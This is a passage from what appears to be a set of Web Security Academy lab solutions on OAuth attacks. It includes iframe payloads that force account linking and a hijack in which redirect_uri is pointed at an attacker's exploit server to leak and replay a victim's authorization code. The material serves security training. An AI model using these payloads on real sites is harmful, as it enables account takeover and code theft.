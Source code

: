     ``` html
    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
    ```

11. Deliver the exploit to the victim. When their browser loads the iframe, it will complete the OAuth flow using your social media profile, attaching it to the admin account on the blog website.
12. Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the admin user. Go to the admin panel and delete Carlos to solve the lab.

## Leaking authorization codes and access tokens

### OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

**Solution**
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with ```GET /auth?client_id=[...]```. Notice that when this request is sent, you are immediately redirected to the *redirect_uri* along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the *redirect_uri* without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the *redirect_uri* to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following *iframe* at */exploit*:

    ```html
    <iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
    ```

7. Store the exploit and click "View exploit". Check that your iframe loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:

    ``` https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE ```

    The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete Carlos to solve the lab.

**Flawed redirect_uri validation**
